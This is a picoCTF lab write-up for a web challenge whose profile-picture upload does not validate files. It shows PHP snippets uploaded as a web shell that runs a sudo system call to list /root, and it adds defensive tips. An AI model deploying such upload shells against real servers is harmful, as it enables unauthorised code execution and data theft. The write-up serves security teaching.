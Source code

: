 ```yaml
---
tags:
    - picoCTF
    - web-exploitation
---
```


# n0s4n1ty 1

"A developer has added profile picture upload functionality to a website. However, the implementation is flawed, and it presents an opportunity for you. Your mission, should you choose to accept it, is to navigate to the provided web page and locate the file upload area. Your ultimate goal is to find the hidden flag located in the /root directory."

## Reading the challenge hints

- no sanity; likely no input sanitisation
- focus is the upload functionality
- difficulty of the challenge is basic; so don't expect this to be too complex
- process we are given to follow:
    1. locate file upload area
    1. Find flag in `/root`

## Research

- [bing search](https://letmegooglethat.com/?q=web+hacking+file+uploads+not+sanisiting)
- [likely hit](https://exploit-notes.hdks.org/exploit/web/security-risk/file-upload-attack/)

So maybe the site may not check file upload type, and allow us to upload executable content to the server

!!! note "Security practice tip!"

    A secure web server will check file extension and file type and block unapproved types!.

## Testing the idea

### Test a file upload of a txt file

Create a php file to test our theory with content like the following. Save it with a `.php` expension

```php
<?php
// Get the current working directory
$currentDirectory = getcwd();
// Display the current working directory
echo "The present working directory is: " . $currentDirectory;
?>
```

Response looks good! `The file cwd.php has been uploaded Path: uploads/cwd.php`



Now browse there...
Success! It printed our working directory - we have code execution in the context of the web server!

This looks something like the following:

```mermaid
sequenceDiagram
    client->>server: uploads file
    server->>client: ok, and heres where it went!
    client-)server: can i see my file pls?
    server-->>client: sure!
    server-->>client: its executable, ok i will execute it...
    server->>client: here's my response

```

## Now can we just list /root?

Lets mak a php script to list a directory; from bing ai code generator:

```php
<?php
$directory = '/root';
foreach (new DirectoryIterator($directory) as $fileInfo) {
    if (!$fileInfo->isDot()) {
        echo $fileInfo->getFilename() . PHP_EOL;
    }
}
?>
```

Hmm, no permissions

## Ok sudo list me root

Lets try this as a system call...with sudo.

!!! note "Security practice tip!"

    A secure web server will block system calls in the php config.

!!! note "Security practice tip!"

    For sudo to work, the web server user will have been added to sudoers.
    That is not normal. If not, we would need some means to privilege escalate

```php
<?php
system('sudo ls -l /root'); // Replace 'ls -l' with your desired command
?>
```

Success!

Ok now try and get the contents of the flag yourself!
